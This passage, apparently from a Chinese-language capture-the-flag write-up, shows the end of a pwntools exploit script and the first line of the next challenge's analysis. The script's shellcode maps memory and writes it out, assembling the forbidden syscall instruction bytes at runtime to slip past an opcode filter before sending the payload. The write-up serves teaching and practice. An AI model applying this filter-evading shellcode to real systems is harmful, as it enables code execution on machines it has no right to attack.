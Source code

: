 ```python

    mov r8, rax
    mov r9, 0
    mov r10, 2
    mov rdx, 7
    mov rsi, 0x1000
    mov rdi, 0x20000
    mov rax, 9
    syscall       // mmap()

    mov rdx, 0x100
    mov rsi, 0x20000
    mov rdi, 1
    mov rax, 1      // write()
    
    mov r8, 0x0500    // 0f 05 小端序需要 0x050f = 0x0500 + 0x1 x 0xf
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    add r8, 1
    mov r9, 0x100b4
    mov [r9], r8     // 构造 syscall ，正好在所有汇编语句后，即 0x100b4
    '''
)

dbg()

io.send(shellcode)

############################################

io.interactive()
```

### 3. Babytrace-v2

#### 3.1 分析

首先先看一眼题目的保护，保护全开，不免了又是一道花哨题
